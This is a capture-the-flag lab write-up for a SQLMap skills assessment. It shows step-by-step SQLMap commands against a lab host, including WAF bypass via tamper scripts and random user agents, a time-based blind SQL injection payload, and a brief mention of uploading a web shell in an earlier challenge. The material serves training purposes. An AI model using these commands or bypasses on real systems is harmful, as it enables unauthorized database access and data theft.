



## SQLMap Essentials - Skills Assessment Write-up

Before diving into the solution for this final challenge in the **SQLMap Essentials** module, I want to briefly mention the previous module **SQL Injection Fundamentals (medium level)**. Compared to this one (labeled as *easy*), the previous assessment was actually more straightforward.


### Quick overview of the "Skills Assessment - SQL Injection Fundamentals"

-   Used **Union-based SQLi** to determine the number of columns in the table
-   Checked local OS file write permissions
-   Uploaded a **web shell** into the default web directory (reference: [SecLists Default Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
-   Searched the system for files named `*flag*.txt` and successfully retrieved the flag


### Current Task - SQLMap Essentials

We were provided with a URL to identify and exploit via SQL injection.

First attempt with a simple SQLMap command:

``` bash
sqlmap -u 'http://94.237.61.242:41666/' --batch --dump
```

Resulted in the following error:

    [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--crawl=2'

Following the suggestion:

``` bash
sqlmap -u 'http://94.237.61.242:41666/' --batch --dump --crawl=3
```

But this time:

    [WARNING] no usable links found (with GET parameters)

#### Step 1: Inspecting requests with Burp Suite

Since no exploitable GET parameters were present, I turned to **Burp Suite** to analyze the traffic. While browsing the application, I noticed a **POST request** with JSON data in the body:

``` json
{"id":1}
```





#### Step 2: Running SQLMap with POST JSON data

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql
```

Error message received:

    [CRITICAL] all tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'

#### Step 3: Adding `--random-agent`

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent
```

SQLMap successfully detected an injection point, but couldn't extract data directly:

```
    sqlmap identified the following injection point(s) with a total of 3088 HTTP(s) requests:
    ---
    Parameter: JSON id ((custom) POST)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: {"id":"1 AND (SELECT 2950 FROM (SELECT(SLEEP(5)))wBmv)"}
    ---
```

However, retrieval attempts failed:

    [ERROR] unable to retrieve the number of databases

#### Step 4: Using `--no-cast` and bypassing WAF

Tried with `--no-cast`:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --no-cast
```

No success. Then attempted to bypass potential WAF filtering with `--tamper`:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --dump --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent --no-cast --tamper=between
```

This time SQLMap successfully retrieved database information:

    [INFO] fetching tables for database: 'production'

#### Step 5: Extracting the final flag

The challenge required retrieving data from the `final_flag` table. I searched and dumped its contents:

``` bash
sqlmap -u 'http://94.237.61.242:41666/action.php' --batch --data '{"id":1}' --level 5 --risk 3 --dbms=mysql --random-agent --no-cast --tamper=between --search -T "final_flag"
```

SQLMap successfully extracted the table and its contents:

```
    Database: production
    [1 table]
    +------------+
    | final_flag |
    +------------+
```




## Conclusion

This challenge highlighted the importance of carefully analyzing application requests beyond simple GET parameters. Key takeaways:

-	Burp Suite inspection revealed a hidden injection point in POST JSON data
-	SQLMap requires proper fine-tuning (`--random-agent`, `--no-cast`, `--tamper`) to bypass protections
-	Even "easy" challenges may require persistence and multiple bypass attempts
